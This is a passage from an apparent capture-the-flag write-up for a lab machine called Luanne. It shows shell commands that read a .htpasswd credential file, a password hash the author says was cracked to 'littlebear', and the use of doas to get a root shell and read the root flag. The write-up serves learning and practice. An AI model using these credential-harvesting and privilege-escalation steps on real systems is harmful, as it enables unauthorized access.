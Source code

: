 ```
luanne$ cd /tmp/devel-2020-09-16/                                                                                                                                                                                                         
luanne$ ls
webapi www
luanne$ cd www/                                                                                                                                                                                                                           
luanne$ ls -la
total 32
drwxr-xr-x  2 r.michaels  wheel   96 Sep 16 15:03 .
drwxr-x---  4 r.michaels  wheel   96 Sep 16 15:02 ..
-rw-r--r--  1 r.michaels  wheel   47 Sep 16 18:14 .htpasswd
-rw-r--r--  1 r.michaels  wheel  378 Sep 16 15:03 index.html
luanne$ cat .htpasswd                                                                                                                                                                                                                     
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```
So i decrypted hash as i done before and got password `littlebear`.

## Root Flag

With above password i was able to spawn root shell and to catch root.txt.
```
luanne$ doas -u root /bin/sh
Password:
luanne# cat /root/root.txt
```
